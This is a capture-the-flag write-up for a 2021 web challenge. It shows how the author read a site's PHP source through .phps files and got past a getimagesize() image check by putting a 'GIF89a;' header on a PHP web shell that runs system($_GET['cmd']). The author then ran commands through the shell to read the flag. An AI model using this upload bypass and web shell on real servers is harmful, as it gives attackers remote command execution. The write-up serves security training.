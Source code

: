## challenge

Job posting website for security experts, pentesters and hackers. http://indead-upload-avatar.ctf2021.hackpack.club

## solve

Go to url: http://indead-upload-avatar.ctf2021.hackpack.club

Web have upload file function

![chal](./images/chal.png)

This website is programmed in php language

![This website is programmed in php language](./images/run-php.png)

I try upload php shell file 

![I try upload php shell file](./images/upload-shell-php.png)

But not allow

![not allow](./images/not-allow.png)

**In php**: The PHPS file type is primarily associated with PHP Source by The PHP Group. Generally, PHP files will get interpreted by the Web server and PHP executable, and you will never see the code behind the PHP file. If you make the file extension .PHPS, a properly-configured server will output a color-formated version of the source instead of the HTML that would normally be generated. Not all servers are so configured.

I try access to: https://indead-upload-avatar.ctf2021.hackpack.club/index.phps and see source code bellow

![Source php](./images/php-source.png)

I continue access to: https://indead-upload-avatar.ctf2021.hackpack.club/core.phps

![Source php](./images/source-core-php.png)

I've got all the source code, next step is source code review

![Source php](./images/source-core-php-check-image.png)

In *core.php* using getimagesize() function to check if image file is a actual image or fake image

With getimagesize() function if i upload a file GIF, it just check GIF file header.

And, The file, after being uploaded, will be saved to the directory **very_long_directory_path** 

**GIF89a; header**: GIF89a is a GIF file header. If uploaded content is being scanned, sometimes the check can be fooled by putting this header item at the top of shellcode:

```php
GIF89a;
<?php
    echo system($_GET['cmd']); # shellcode goes here
?>
```

Ok, I tried uploading it again with shellcode.

![uploaded 200](./images/upload-200.png)

Bigo! Upload successful. I got a webshell.

I access to: https://indead-upload-avatar.ctf2021.hackpack.club/very_long_directory_path/test.php?cmd=ls

![shell run](./images/shell-run.png)

Finally, get flag in `/var/www/` with path: `/var/www/flag.txt`

![Flag](./images/flag.png)

Flag is: `flag{y3t_an0ther_file_uplo@d_vuln}flag{y3t_an0ther_file_uplo@d_vuln}`